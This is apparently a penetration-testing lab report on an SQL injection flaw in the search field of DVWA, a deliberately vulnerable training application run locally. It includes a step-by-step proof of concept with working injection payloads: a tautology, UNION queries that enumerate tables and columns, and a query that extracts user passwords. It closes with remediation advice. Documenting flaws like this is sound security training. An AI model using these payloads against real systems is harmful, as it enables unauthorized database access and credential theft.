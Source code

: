 ##  DVWA SQL Injection Level: low

**Executive Summary:** An SQL Injection vulnerability was discovered in the search field of the Damn Vulnerable Web Application, Hence forth known as the **DVWA**, the vulnerability allows an attacker to query and retrieve sensitive information from the database.

## Vulnerability Details
* **Description:** The application is not sanitising user supplied data from the search input field, specifically SQL statements are not adequately escaped before running them, allowing attacker supplied queries to be executed and displayed back on the page 
* **Affected Components:** The search input field within the web application
* **Parameters:** The **ID** parameter supplied through the search input field
* **Impact:**
	1. **Confidentiality:** An attacker can steal sensitive user information including passwords.
	2. **Reputational Damage:**Leaking sensitive information of users can have significant reputational damage.
	3. **Severity:** **High.** The persistence nature of the **SQLi** and the potential of information leakage makes this a high-severity vulnerability.
	4. **Likelihood of Exploitation:** **High.** crafting the payload is relatively easy.
## Proof Of Concept(POC)
1. In the web application navigate to http://127.0.0.1:42001/vulnerabilities/sqli/ 
2. Locate the search input field at the top of the page
3. In the search input field, enter the following payload:
	```1' or '1'='1'# ```
4. this will be return all user full names
	![payload output](SQLi%20low.png)	
	this confirms the vulnerability, to take it further to demonstrate severity proceed to step 5.
5. In the search input field, enter the following payload.
	```1' UNION SELECT 1, table_name FROM information_schema.tables WHERE table_schema = DATABASE()# ```
6. the output will be a list of tables in the database.
	![payload output](SQLi%20tables%20low.png)
7. run the following command in the search input field to retrieve a list of columns in the ``users`` table.
	```1' UNION SELECT 1, column_name FROM information_schema.columns WHERE table_schema = DATABASE() AND table_name = 'users'#```
8. The output reveals valuable information about the structure of the database
![payload output](DB%20schema%20low.png)
9. run the following command to get the passwords of the users
	``1' UNION SELECT 1, password FROM users#``
	![payload output for passwords](password%20low.png) 

**Remediation:**

  * **Recommended Solution:** use parameterized queries (prepared statements) and validate user input on the server-side.
  * **Priority:** **High**. Due to the potential impact, this vulnerability should be addressed immediately.
  
  **Reporter Information:**

  * **Name:** Henry Mate Security Analyst
  * **Date Discovered:** July 10, 2025

**References:**
* [OWASP SQL injection](https://owasp.org/www-community/attacks/SQL_Injection)

